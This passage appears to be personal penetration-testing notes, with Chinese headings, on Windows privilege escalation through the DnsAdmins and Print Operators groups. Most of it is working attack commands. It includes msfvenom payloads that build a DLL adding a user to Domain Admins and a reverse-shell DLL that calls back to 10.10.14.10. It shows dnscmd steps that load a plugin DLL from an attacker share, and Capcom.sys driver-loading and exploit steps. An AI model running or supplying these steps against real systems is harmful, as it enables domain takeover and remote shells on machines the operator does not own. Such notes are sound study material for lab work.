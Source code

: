 ```shell
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
``` shell
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=9001 -f dll > ff.dll
```
### 加入客製化dll
```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```
```
dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.10\share\ff.dll
```
### 找到user sid
```cmd
wmic useraccount where name="netadm" get sid
```
### 確認DNS Service權限
```cmd
sc.exe sdshow DNS
D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
### 重啟DNS Server
```cmd
sc stop dns
sc start dns
```
## Print Operators
>[!warning ] 小節重點
>Print Operator 可以調用`SeLoadDriverPrivilege`的權利
### 開啟`SeLoadDriverPrivilege`的方法
- [POC](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp)
- POC上面要替換成這些
```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
- 透過cl.exe編譯
```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
- 加入
[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)
```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```
- 執行EnableSeLoadDriverPrivilege.exe
```cmd
 EnableSeLoadDriverPrivilege.exe
```
- 提權
[POC](https://github.com/tandasat/ExploitCapcom)
```powershell
.\ExploitCapcom.exe

[*] Capcom.sys exploit
```